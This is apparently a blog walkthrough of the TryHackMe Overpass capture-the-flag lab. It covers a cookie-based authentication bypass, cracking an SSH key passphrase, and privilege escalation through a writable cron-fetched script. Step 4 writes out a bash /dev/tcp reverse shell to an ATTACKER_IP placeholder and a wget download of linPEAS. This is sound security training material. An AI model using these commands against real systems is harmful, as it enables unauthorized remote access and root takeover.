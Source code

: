 ```yaml
---
title: "Quick and Easy Overpass CTF TryHackMe Walkthrough"
slug: overpass-ctf
layout: post
excerpt_separator:  <!--more-->
categories:
  - ctfs
---
```


This walkthrough covers the [Overpass](https://tryhackme.com/room/overpass) CTF found on [TryHackMe](https://tryhackme.com). This room aims to exploit a vulnerable web application through a flawed authentication measure, obtain an initial foothold using exposed SSH keys, and then escalate privileges to root by injecting a reverse shell into a cronjob with poorly managed permissions.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693151396473/db4e3302-2a8f-4e91-87b0-ccd63a41788c.png){: .center-image }

### Step 1: Nmap Scan

As always, we'll begin our penetration test by enumerating the network to identify running services.

```bash
sudo nmap -sV -p- -T4 -Pn 10.10.62.26 --disable-arp-ping --max-retries=0
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693162687231/1e4a9cb9-8600-4e3b-a2c8-a34498b8f58c.png){: .center-image }

Let's examine and see what we can obtain from the web server using `ffuf`.

### Step 2: Web Enumeration

```bash
sudo ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt:FUZZ -u http://10.10.62.26/FUZZ -t 10
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693162777077/d6c2e40e-d6e2-4dad-a782-03c0cb200667.png){: .center-image }

### Step 3: Initial Foothold

The `/admin` directory appears promising. Let's navigate to it and explore what we can do with it.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693162827321/33d4cb35-5eb5-4cc2-857f-10597d6dbe5c.png){: .center-image }

Upon examining the source code, we discover a JavaScript file named `login.js`.

```javascript
async function postData(url = '', data = {}) {
    // Default options are marked with *
    const response = await fetch(url, {
        method: 'POST', // *GET, POST, PUT, DELETE, etc.
        cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
        credentials: 'same-origin', // include, *same-origin, omit
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        redirect: 'follow', // manual, *follow, error
        referrerPolicy: 'no-referrer', // no-referrer, *client
        body: encodeFormData(data) // body data type must match "Content-Type" header
    });
    return response; // We don't always want JSON back
}
const encodeFormData = (data) => {
    return Object.keys(data)
        .map(key => encodeURIComponent(key) + '=' + encodeURIComponent(data[key]))
        .join('&');
}
function onLoad() {
    document.querySelector("#loginForm").addEventListener("submit", function (event) {
        //on pressing enter
        event.preventDefault()
        login()
    });
}
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

This script contains a vulnerability listed in the `OWASP Top 10`, known as `Broken Authentication`.

```javascript
    } else { 
        Cookies.set("SessionToken",statusOrCookie) 
        window.location = "/admin" 
    }
}
```

Using `Developer Tools (F12)` and navigating to `Storage` (in Firefox), we can add a new item and create a `SessionToken` with a value of "`admin`" inside it.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163060518/c3ca7113-622d-4295-a8c3-2c8fc193a9a7.png){: .center-image }

This enables us to circumvent the login necessity. After gaining access, we came across an `SSH` key belonging to a user named `James`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163115324/4f12413f-3207-4136-89a8-f271cbc276ea.png){: .center-image }

We can use `ssh2john` and `john-the-ripper` to crack the passphrase for this.

Save the `SSH` key in a file named `id_rsa`, and then execute the following commands:

```bash
python3 /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```

Then run `john`:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163364720/a6704e43-c596-4a14-b20e-2f4cc9119d6f.jpeg){: .center-image }

Set the permissions for the `id_rsa` file.

```bash
chmod 600 id_rsa
```

Log in to the target.

```bash
ssh -i id_rsa james@<TARGET_IP>
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163459398/1b740587-69f5-4bcc-a530-7f916b65f135.png){: .center-image }

Grab the `user.txt` flag.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163488021/242cc56c-2e25-4a22-8bd0-1ef7fe8e5882.jpeg){: .center-image }

### Step 4: Privesc and Root

Begin by starting an HTTP server to transfer `linPEAS`, which will help enumerate the system for potential privilege escalation vectors.

```bash
python3 -m http.server 1337
```

Download `linPEAS` to the victim.

```bash
wget http://<ATTACKER_IP>/linpeas_linux_amd64
```

Make it executable.

```bash
chmod +x linpeas_linux_amd64
```

Run it.

```bash
./linpeas_linux_amd64
```

Upon analyzing the results, we discovered a vulnerability in the cron jobs.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163689197/09cbd9e9-ecba-44d1-b0c0-8b868d5b2844.png){: .center-image }

Every minute, precisely on the minute, a request is sent to fetch `buildscript.sh` as root. However, this file has write access for regular users, which allows us to modify it with a reverse shell.

First, we want to modify `/etc/hosts` and change `overpass.thm` to our IP address.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163843395/1b595f21-c2f4-4d56-9a7a-34639c38b19c.png){: .center-image }

The method for escalating privileges here involves altering the IP address of `overpass.thm` to our own and creating a `/downloads/src` directory on our system with a modified `buildscript.sh` file that incorporates a reverse shell for the scheduled task to retrieve.

Create the reverse shell:

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/1338 0>&1"
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163978286/a3abfc07-0643-4b9a-aff8-85b1a0b38e2e.png){: .center-image }

Then, run an HTTP server from the root directory using the command:

```bash
python3 -m http.server 80
```

After a minute, it will pull the `buildscript.sh` file we created and connect back to our netcat listener on port 1338.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693164132669/92cba98b-36c8-44d1-a86c-04fa45651f2d.png){: .center-image }

And that's it! Once we gain access, we can obtain the `root.txt` flag.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693164176186/9d40e82b-5889-45e9-9c8d-ddc72c34f459.jpeg){: .center-image }

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693164179848/0c6ab381-a061-4b1d-b786-310466b793ed.png){: .center-image }

### Summary

> In this walkthrough, we will exploit a vulnerable web application on TryHackMe's Overpass CTF by bypassing a flawed authentication measure, obtaining an initial foothold using exposed SSH keys, and escalating privileges to root through a reverse shell injected into a cronjob with poorly managed permissions. The steps include an Nmap scan, using ffuf for network enumeration, gaining initial access, and escalating privileges to obtain the root flag.